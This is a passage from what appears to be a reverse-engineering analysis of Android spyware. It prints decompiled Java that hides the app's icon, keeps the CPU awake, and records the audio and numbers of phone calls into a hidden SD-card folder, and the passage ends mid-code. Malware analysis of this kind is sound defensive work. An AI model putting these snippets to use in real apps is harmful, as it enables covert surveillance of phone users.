 Upon launching the application, it immediately executes code to conceal the app icon.
```java
try {
    PackageManager p = getPackageManager();
    ComponentName componentName = new ComponentName(this, MainActivity.class);
    p.setComponentEnabledSetting(componentName, 2, 1);
}
```
The app icon is hidden using the `p.setComponentEnabledSetting` method. The value `2` corresponds to `COMPONENT_ENABLED_STATE_DISABLED`, and the third argument represents the `DONT_KILL_APP` flag. After hiding the app icon, the application starts the service `com.example.dat.a8andoserverx.MainService`.

### com.example.dat.a8andoserverx.calls
As soon as the `onStartCommand` method of the service is called, the service acquires a partial wake lock with the tag `MyApp::MyWakelockTgggag`. In case of partial wake locks, the screen and keyboard backlight are allowed to go off but the CPU continues to run. The broadcast receiver `com.example.dat.a8andoserverx.InterceptCall` is triggered in case of incoming and outgoing calls. By the help of this receiver, the application reads and stores the phone numbers involved in the conversation.

![](/images/rev/ttsp/ttsp-06.png)

The current time is recorded in the format `SimpleDateFormat("yyyy_MM_dd_HH_mm_ss")`. The directory `/sdcard/DCIM/.dat` is created if it doesn't exist. In case of incoming calls, a file `In_<pno>_<timestamp>.mp3` is created in the `/sdcard/DCIM/.dat` directory where `pno` is the incoming phone number. In case of outgoing calls, a file `Out_<pno>_<timestamp>.mp3` is created where pno is the outgoing phone number. After that it records the call and saves it in the created file.
```java
calls.this.recorderx = null;
calls.this.recorderx = new MediaRecorder();
calls.this.recorderx.setAudioSource(1); // MIC (using microphone as audio source)
calls.this.recorderx.setOutputFormat(2); // MPEG4 media file format
calls.this.recorderx.setAudioEncoder(3); // AAC Low Complexity (AAC-LC) audio codec
calls.this.recorderx.setOutputFile(calls.this.audiofilex.getAbsolutePath());
calls.this.recorderx.prepare();
calls.this.recorderx.start();

// All these recordings will be saved in the /sdcard/DCIM/.dat directory
```

### com.example.dat.a8andoserverx.MainService

![](/images/rev/ttsp/ttsp-02.png)

The application creates a hidden file named `.csp` within the DCIM directory on the SD card and initiates the `com.example.dat.a8andoserverx.calls service`. 
We can see that two tasks `task` and `taskx` are scheduled to run each second, starting after a delay of one second.
```java
    TimerTask task = new TimerTask() { // from class: com.example.dat.a8andoserverx.MainService.2
        @Override // java.util.TimerTask, java.lang.Runnable
        public void run() {
            MainService.this.paster++;
            if (MainService.this.paster > 600 && MainService.so != null) {
                try {
                    MainService.so.close();
                } catch (IOException e) {
                } catch (Exception e2) {
                }
            }
        }
    };
    TimerTask taskx = new TimerTask() { // from class: com.example.dat.a8andoserverx.MainService.3
        @Override // java.util.TimerTask, java.lang.Runnable
        public void run() {
```